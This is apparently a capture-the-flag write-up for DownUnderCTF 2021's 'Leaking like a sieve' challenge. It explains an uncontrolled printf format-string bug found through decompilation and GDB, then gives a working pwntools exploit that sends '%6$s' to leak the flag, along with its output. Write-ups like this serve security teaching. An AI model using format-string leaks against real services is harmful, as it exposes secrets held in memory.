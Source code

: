 # DownUnderCTF 2021

## Leaking like a sieve

> 100
> 
> This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?
> 
> Author: xXl33t_h@x0rXx
>
> `nc pwn-2021.duc.tf 31918`
>
> [`hellothere`](hellothere)

Tags: _pwn_ _x86-64_ _format-string_

## Summary

Basic _leak the flag from a pointer in the stack_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Partial RELRO = GOT overwrite; No canary = Easy BOF.

None of this matters for this challenge.


### Decompile with Ghidra   

```c
void main(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [32];
  char local_38 [40];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  buffer_init();
  __stream = fopen("./flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("The flag file isn\'t loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(local_38,0x20,__stream);
  do {
    puts("What is your name?");
    fgets(local_58,0x20,stdin);
    printf("\nHello there, ");
    printf(local_58);
    putchar(10);
  } while( true );
}
```

`printf(local_58);` is your vuln--no format string.

`*__stream` is a pointer to the flag and is also on the stack, and probably at parameter `6`.  If this does not make sense, then Google for _format string exploits_.  In short, the x86_64 Linux ABI has parameters 0-5 in registers and the rest on the stack (in general).

Since we know the pointer is on the stack, you can simply just send `%x$s` where `x` is any number >= `6` until you get the flag, i.e. start at `6` (or `1` if you like) and increment.

`%x%s` is a legit `printf` format-string, e.g. you can try this in C if you like:

```
#include <stdio.h>

void main()
{
    printf("%1$s %1$s\n","blah");
}
```

This code will output `blah` twice (the format-string is parameter zero if you were wondering why counting started at one).

Now change the `1` to a `2` and see what happens?  Good chance it'll crash.  If you just get garbage consider yourself lucky.  So if scripting to find the flag, check for crashes or timeouts in your code.  Or just use GDB to find the correct parameter:

```
0x00007fffffffe300│+0x0000: 0x00007fffffffe330  →  "flag{flag}\n"	 ← $rsp
0x00007fffffffe308│+0x0008: 0x00005555555592a0  →  0x00000000fbad2488
0x00007fffffffe310│+0x0010: 0x0000000a68616c62 ("blah\n"?)	 ← $rdi
0x00007fffffffe318│+0x0018: 0x00007fffffffe347  →  0x005555555550b000
0x00007fffffffe320│+0x0020: 0x00007fffffffe346  →  0x5555555550b00000
0x00007fffffffe328│+0x0028: 0x00005555555552e5  →  <__libc_csu_init+69> add rbx, 0x1
0x00007fffffffe330│+0x0030: "flag{flag}\n"
```

Looks like the flag was also on stack, curtesy of `fgets(local_38,0x20,__stream);`, so one could have also just used the tired old `%x$p` loop to leak the flag (more work).


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./hellothere')

if args.REMOTE:
    p = remote('pwn-2021.duc.tf', 31918)
else:
    p = process(binary.path)

p.sendlineafter(b'name?\n',b'%6$s')
p.recvuntil(b'there, ')
flag = p.recvline().strip()
log.info('flag: ' + flag.decode())
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2021/hellothere/hellothere'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn-2021.duc.tf on port 31918: Done
[*] flag: DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```